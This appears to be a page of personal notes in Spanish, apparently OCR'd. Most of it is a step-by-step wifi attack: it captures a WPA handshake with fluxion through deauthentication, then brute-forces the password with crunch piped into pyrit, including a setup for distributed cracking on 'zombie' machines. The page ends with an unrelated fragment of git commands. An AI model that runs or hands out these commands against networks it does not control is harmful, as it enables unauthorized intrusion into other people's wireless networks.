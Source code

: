 airmon-ng check



kill \&lt;procesos activos\&gt;

ejecutar nuevamente fluxion

Una vez listado los ssid, presionar ctrl-c para que se importen los datos a fluxion

seleccionar el número del ssid a atacar.

.2 (handshake snooping)

.2 (airplay desatentication)

.1 pyrit verification

.1 cada 30 segundos



.1 Asyncrona

una vez obtenido el handshake se puede detener el proceso y salir

El handshake (.cap) se guardará en fluxion/attack/handshake snooper/handshakes



pyrit -\&gt; cpu&#39;s password

github.com/JPaulMora/Pyrit.git

apt install pyrit pyrit\_opencl



pyrit benchmark

indicará la cantidad de paswword procesados por segundo

pyrit server (en equipos zombies) y editar el archivo para poner rpc\_server = true

leafpad /root/.pyrit/config

rpc\_knownclients = \&lt;zombie1\&gt; \&lt;zombie2\&gt;

rpc\_server = true

crunch -\&gt;diccionario al handshake

crunch 8 8 0123456789 | pyrit -r \&lt;archivo.cap\&gt; -e \&lt;bssi\&gt; -i - attack\_passthrough



# Git commands

domingo, 16 de agosto de 2020

17:09

git log

git log -p

git branch (-r)
